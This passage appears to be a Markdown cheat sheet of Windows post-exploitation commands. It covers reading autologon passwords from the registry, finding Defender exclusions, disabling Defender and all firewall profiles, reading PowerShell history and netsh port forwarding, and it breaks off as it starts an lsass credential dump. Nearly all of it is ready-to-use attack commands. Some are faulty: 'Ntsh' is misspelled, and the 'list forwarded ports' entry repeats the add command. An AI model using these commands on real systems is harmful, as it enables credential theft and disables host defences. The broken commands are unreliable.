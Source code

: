 #### Find autologon credentials registery key
```
Get-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\WinLogon" -Name "DefaultPassword"
```
#### Get info about Windows Defender
```
Get-MpPreference
```

#### Find excluded folder from Windows Defender
```
(Get-MpPreference).Exclusionpath
```

#### Turn off Windows Defender
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

#### Turn off Windows Firewall Powershell
```
Set-NetFirewallProfile -Name Domain,Private,Public -Enabled False
```

#### Turn off Windows Firewall cmd
```
netsh advfirewall set allprofiles state off
```

#### Get powershell history path and cat history
```
Get-PSReadlineOption
cat <path>
```

## Port forwarding
#### Port forward with netsh (cmd)
```
Ntsh interface portproxy add v4tov4 listenport=443 listenaddress=xx.xx.xx.xx connectaddress=xx.xx.xx.xx connectport=445
```

#### List forwarded ports netsh
```
Ntsh interface portproxy add v4tov4 listenport=443 listenaddress=xx.xx.xx.xx connectaddress=xx.xx.xx.xx connectport=445
```

## Dump lsass to a file (for when MimiKatz doesn't work)
#### Get process id from lsass process
```
Powershell Get-Process lsass
```

